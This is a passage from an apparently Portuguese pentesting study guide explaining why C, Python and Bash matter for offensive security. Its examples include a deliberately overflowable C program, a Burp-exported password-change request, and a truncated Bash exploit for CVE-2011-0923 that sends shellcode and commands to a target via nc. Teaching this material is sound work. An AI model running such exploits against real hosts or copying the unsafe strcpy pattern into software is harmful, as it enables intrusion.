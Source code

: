 # 💻 Programação

Todas as aplicações foram feitas de código, como entender da segurança delas sem conhecer programação? Não dá! Quanto mais conhecimento nesse requisito, melhor. De fato a pessoa pentester não precisa ser uma grande programadora, na verdade já seria de bom tamanho saber fazer o mínimo de um code-review ou ser capaz de criar scripts/exploits direcionados para as análises, tais como um brute-force ou implementação de criptografia.

Existem muitas linguagens de programação, mas para a área de Segurança Ofensiva, há as mais importantes:



<details>

<summary><mark style="color:purple;">C/C++</mark></summary>

Das linguagens mais antigas, C e C++ são consideradas as mais importantes bases, pois até outras linguagens como JavaScript, Python, C#, Java foram feitas a partir delas. Aprender-las é crucial no ramo da tecnologia da informação, principalmente C, pois estão muito presentes em sistemas operacionais e nos estudos de engenharia reversa e exploração de binários(Arquivos ELF), como exemplo exploração de Kernel. Um pequeno exemplo de um código em C vulnerável a Buffer Overflow:

```
#include <stdio.h>
#include <string.h>

int main (int argc, char** argv){
    char buf[256];
    strcpy(buf, argv[1]);
    printf("%s\n", buf);
    return 0;
}
```



</details>

<details>

<summary><mark style="color:purple;">Python</mark></summary>

A linguagem mais prática da atualidade, Python é excelente para desenvolvimento dos mais variados exploits, a maioria dos scripts de Infosec encontrados por aí provavelmente estarão nessa linguagem. Para todas as áreas de TI, Python tem uma biblioteca, muitas vezes usei **selenium** ou **requests** para fazer ataques de automação, inclusive o BurpSuite (Ferramenta de Proxying mais usado em Pentest) consegue transformar requisições em script de Python. Importação da requisição acima para um script em python usando o Burp:

```
import requests

burp0_url = "https://dev.exemplo.com:443/app/v1/trocar_senha"
burp0_headers = {"Authorization": "Bearer b13d217d3e5a8ab802D6ccf4bca93e4",
                 "Accept-Encoding": "gzip, deflate", "Connection": "close"}
burp0_json={"nova_senha": "SuperSenha123", "senha_atual": "123456"}
requests.post(burp0_url, headers=burp0_headers, json=burp0_json)


```

</details>

<details>

<summary><mark style="color:purple;">Shell Script</mark></summary>

Linux é bastante importante como já vimos anteriormente, e Shell Scripting nada mais é do que termos uma maneira para combinar e automatizar o interpretador de comandos do sistema operacional. Assim como o Python, scripts em Bash são encontrados em incontáveis cenários tanto para PoCs de CVEs ou qualquer coisa relacionada à servidores Linux, entender isso seria trivial. Exemplo de um exploit em Bash Script:

```
#!/bin/bash
# Exploit Title: HP Data Protector Remote Root Shell for Linux(CVE-2011-0923)
# Author: SZ
# Reference: http://www.zerodayinitiative.com/advisories/ZDI-11-055/

[ $# -lt 3 ] && echo -en "Syntax: `basename ${0}` <host> <port> <commands>\n" && exit 0

HOST=`echo ${@} | awk '{print $1}'`
PORT=`echo ${@} | awk '{print $2}'`
CMD=`echo ${@} | sed 's/'$HOST'.*'${PORT}'\ \ *//g'`
SC=""
SC=${SC}"\x00\x00\x00\xa4\x20\x32\x00\x20"
SC=${SC}"\x2d\x2d\x63\x68\x30\x6b\x73\x2d"
.
.
.
SC=${SC}"\x00\x00\x00\x00\x00\x00\x00\x00"
SC=${SC}"\x00\x00\x00\x00\x00\x00\x00\x00"

SHELLCODE=${SC}
( echo -en ${SHELLCODE} ; echo ${CMD} ) | nc -w1 ${HOST} ${PORT}
```

</details>

